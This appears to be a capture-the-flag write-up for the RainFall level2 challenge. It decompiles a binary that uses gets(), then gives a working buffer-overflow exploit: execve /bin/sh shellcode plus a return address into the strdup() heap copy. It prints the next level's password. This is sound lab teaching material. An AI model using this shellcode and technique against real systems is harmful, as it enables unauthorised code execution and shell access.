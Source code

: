 ## Step 1: Static & Dynamic Analysis

```c
void p(void)
{
  uint unaff_retaddr;
  char buffer [76];
  
  fflush(stdout);
  gets(buffer);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
    _exit(1);
  }
  puts(buffer);
  strdup(buffer);
  return;
}

void main(void)
{
  p();
  return;
}
```

### Explanation
The binary fills a buffer (`buffer`) via `stdin` using `gets()`, without any validation to prevent potential `buffer overflow`.
After this, it checks if the copy of the `eip` (`unaff_retaddr`) on the `stack` has been modified to point to an address starting with `0xb`. If so, it calls `_exit()`.

The program checks this because it typically indicates an attempt to execute code in restricted memory regions, such as the stack or shared libraries.

If the check passes, it prints the buffer using `puts()` and creates a copy of the buffer on the `heap` using `strdup()`.
```
(gdb) info proc map                
process 3548
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
         0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fd9000 0xb7fdd000     0x4000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
To exploit the `buffer overflow`, the goal is to fill the buffer with `shellcode`, add padding to reach the `eip` copy, and overwrite it with the address of the shellcode's location in the `heap` before `strdup()` stores the buffer.
When the `p()` function returns, the overwritten `eip` will cause execution to jump to the shellcode, spawning a shell.


## Step 2: Exploiting the Binary
```
level2@RainFall:~$ python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 48) + "BBBB" + "\x08\x04\xa0\x08"[::-1])' > /tmp/exploit

level2@RainFall:~$ cat /tmp/exploit - | ./level2

% cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
